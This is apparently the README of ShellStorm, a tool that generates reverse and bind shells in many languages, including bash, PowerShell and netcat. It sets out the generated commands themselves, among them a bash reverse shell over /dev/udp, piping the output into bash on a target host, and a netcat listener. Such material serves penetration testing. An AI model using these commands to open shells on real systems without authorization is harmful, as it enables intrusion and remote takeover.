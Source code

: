 # ShellStorm
Automatic reverse/bind shell generator cheat sheet.  

A compilation of knowledge over the years from many pentesters that you will recognize  
after reading the source code to make the process of creating reverse and bind connections easier  
for cybersecurity analysts.  

<!--![alt text](https://github.com/0bfxgh0st/ShellStorm/blob/main/screenshots/Shellstorm.gif)-->

* Install requirements for generate **WAR** packages & **EXE** files.  
```
sudo apt-get update -y && sudo apt-get install default-jdk mingw-w64 -y
```

## Available languages/programs  
<pre>
asp
awk
bash
cpan
dart
elf
exe
gawk
golang
groovy
java
jsp
lua
nc
nc-nef (netcat without -e flag, mkfifo)
nodejs
openssl
perl
php
php-daemon
php-simple
ps1
ps1-ds (powershell download string)
python
ruby
rust
sbd
socat
telnet
war
</pre>

# TL;DR
## Try go further
* In some cases you can download shellstorm in any 'target' machine with Linux kernel (or WSL) and execute it by piping it if you prefer.  
<pre>
bash shellstorm.sh bash 10.2.54.13 1337 | bash
</pre>

* Do you want UDP shell? No problem, 'sed' it.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g'
Output:
bash -c "bash -i >& /dev/udp/127.0.0.1/1337 0>&1"
</pre>

* You can pipe it too.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g' | bash
Note:  
Remember use -u (udp) flag in netcat listener as following:  
nc -u -lvp 1337
</pre>

### Some relevant sources:  
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md</a>  
<a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet</a>
